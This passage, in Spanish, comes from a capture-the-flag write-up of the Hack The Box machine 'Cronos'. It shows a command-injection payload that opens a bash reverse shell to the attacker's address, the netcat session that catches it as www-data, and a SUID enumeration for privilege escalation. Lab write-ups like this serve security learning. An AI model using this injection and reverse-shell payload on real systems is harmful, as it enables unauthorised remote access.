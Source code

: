 ![](/assets/images/htb-cronos/cronos-web5.png)

Y vemos el resultado del comando que ejecutamos `whoami`; por lo tanto tenemos ejecución de comandos, ahora nos entablamos una reverse shell a nuestro equipo, por lo que nos ponemos en escucha por el puerto 443:

```bash
ping 10.10.14.27; bash -c "bash -i >& /dev/tcp/10.10.14.27/443 0>&1"
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.13] 42272
bash: cannot set terminal process group (1378): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ whoami
whoami
www-data
www-data@cronos:/var/www/admin$
```

Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt) y así que antes que nada, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Ahora debemos encontrar una forma de escalar privilegios, por lo que vamos a enumerara un poco el sistema.

```bash
www-data@cronos:/home/noulis$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cronos:/home/noulis$ sudo -l
[sudo] password for www-data: 
www-data@cronos:/home/noulis$ cd /
www-data@cronos:/$ find \-perm -4000 2>/dev/null
./bin/ping
./bin/umount
./bin/mount
./bin/fusermount
./bin/su
./bin/ntfs-3g
./bin/ping6
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/snapd/snap-confine
./usr/lib/eject/dmcrypt-get-device
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/bin/chsh
./usr/bin/newuidmap
./usr/bin/sudo
./usr/bin/chfn
./usr/bin/newgrp
./usr/bin/at
```